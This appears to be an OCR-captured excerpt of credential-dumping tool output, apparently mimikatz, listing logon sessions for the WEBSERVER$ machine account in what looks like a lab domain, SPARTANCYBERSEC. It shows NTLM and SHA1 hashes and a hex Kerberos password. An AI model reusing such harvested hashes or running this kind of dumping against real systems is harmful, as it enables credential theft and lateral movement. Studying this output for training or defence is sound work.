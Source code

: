 ```
         * SHA1     : cd54e4ac32cca2e2ad07df657a832d9ee1cabe04
        tspkg :
        wdigest :
         * Username : WEBSERVER$
         * Domain   : SPARTANCYBERSEC
         * Password : (null)
        kerberos :
         * Username : WEBSERVER$
         * Domain   : spartancybersec.corp
         * Password : de ce 87 d1 ac 7b 8a ff c5 3b db 11 1d bd 9f 81 ca 32 f1 c5 cc 3f 89 cc 95 80 7a 97 1c 5d 2d 8b 28 af 7d 25 1a 53 7e b9 5c b9 2a 23 6a fb ca bb 9e 20 16 d4 3c f6 7e b4 b4 76 48 c6 b7 10 25 9a 07 b5 07 b2 7f d2 b1 b0 a1 b0 f9 ce a1 92 a7 26 3d 0d ff ca d8 16 5b 60 9d 20 64 ea d9 0b f5 5a c0 0f 79 1f a0 b4 e3 43 cd 63 d1 ec 14 f8 5d bb 4c e0 22 da 1e 83 6f 1a eb 39 82 cd 45 97 23 ea a4 ef d0 52 72 96 cb a1 f5 1c 07 ea ef cb 45 17 7b 5a f0 0b 8b 57 bb 8f 1e 35 2f f3 55 57 61 5b 4f 12 2f 51 11 c2 1b 60 59 39 c6 df 0c 06 9b 11 db 70 92 9e 90 6b 6c 49 f8 f7 d4 af 4c 86 21 87 e4 ea 57 50 a6 b7 87 ad 4d 61 c5 b0 35 84 79 c6 9d 26 8f a7 0f e7 3a e3 fb 34 24 88 27 fd c5 ae d5 61 67 1e eb 78 a7 05 dc 38 9a 9c 72 0a 44 cc
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 24887 (00000000:00006137)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/6/2023 12:16:13 AM
SID               :
        msv :
         [00000003] Primary
         * Username : WEBSERVER$
         * Domain   : SPARTANCYBERSEC
         * NTLM     : 449c5f226aff8a2af42ac07ebaf901cb
         * SHA1     : 8af38efaf6e0c5c701c5d793438fbcdf4815777a
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WEBSERVER$
Domain            : SPARTANCYBERSEC
Logon Server      : (null)
Logon Time        : 11/6/2023 12:16:13 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WEBSERVER$
         * Domain   : SPARTANCYBERSEC
         * Password : (null)
        kerberos :
         * Username : webserver$
         * Domain   : SPARTANCYBERSEC.CORP
```